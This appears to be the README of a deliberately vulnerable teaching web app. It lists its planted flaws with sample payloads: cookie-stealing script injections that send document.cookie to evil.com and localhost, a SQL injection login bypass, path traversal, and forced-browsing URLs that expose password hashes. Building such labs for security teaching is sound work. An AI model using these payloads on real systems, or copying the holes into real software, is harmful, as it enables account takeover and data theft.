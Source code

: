 # DontDoThis

Simple web application with a bunch of serious security flaws.

It is intended as a teaching tool for security.

**WARNING** Only run in a safe environment as it will expose the entire filesystem over HTTP.

## Getting started

Run `npm ci` to install dependencies.

Run `npm start` for a dev server. Navigate to http://localhost:4200/.

Reset the database with `npm run sync`.


## Vulnerabilities

- About us form - script injection
    - <script>alert("Exploited")</script>
    - <script>fetch(`http://localhost:8000/${document.cookie}`)</script>
- Login form - SQL injection
    - " or id = 1 and "" = "
- Info page - Broken access control
    - GET /api/company/2
- User endpoint - Broken access control / forced browsing
    - http://localhost:4200/api/user/2 -> exposing password hash
- Cryptographic Failures -> MD5 hashing
- Path traversal
    - http://localhost:4200/api/message/company/../package.json
- Script injection
    - POST /api/message `<script>fetch(`http://evil.com/${document.cookie}`)</script>`

